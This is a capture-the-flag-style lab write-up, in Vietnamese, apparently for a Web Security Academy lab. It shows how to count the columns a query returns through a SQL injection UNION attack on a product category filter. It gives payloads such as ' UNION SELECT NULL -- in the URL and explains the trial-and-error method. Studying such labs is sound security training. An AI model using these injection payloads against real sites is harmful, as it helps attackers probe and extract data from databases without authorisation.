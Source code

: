 # **Lab: SQL injection UNION attack, determining the number of columns returned by the query**
>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.<br>
 To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 

# **Solution**
Chọn một trang áp dụng bộ lọc bất kì của trang. Ở đây chọn trang `Gifts`
> https://0a9200c50332833881729362005e00aa.web-security-academy.net/filter?category=Gifts

Có thể đoán được câu truy vấn trong trường hợp này sẽ là:
```
SELECT <some columns> FROM <table name> WHERE <columns name> = 'Gifts'
```
OR
```
SELECT <some columns> FROM 'Gifts'
```
Dựa theo suy đoán trên, thử dùng ONION để xác định số lượng cột được truy vấn:
```
' UNION SELECT NULL -- 
```
Thêm đoạn mã trên vào phần URL để chèn vào câu truy vấn đoạn mã UNION.
Khi đó câu truy vấn sẽ là:
```
SELECT <some columns> FROM 'Gift' UNION SELECT NULL -- ...
```
Nếu có báo lỗi như:
> Internal Server Error

thì nghĩa là số giá trị NULL không khớp với số cột trong câu truy vấn. Chúng ta chỉ cần tăng dần số lượng NULL trong UNION đến khi web không còn báo lỗi như trên.
```
' UNION SELECT NULL,NULL,NULL -- 
```
Done, vậy là 3 giá trị NULL ứng với 3 cột. Đúng như yêu cầu đề bài thì sẽ xuất hiện thêm một hàng trống trên web.


![image](https://i.pinimg.com/originals/5f/39/e6/5f39e6d606da1c3d603bdabfccf053f3.jpg)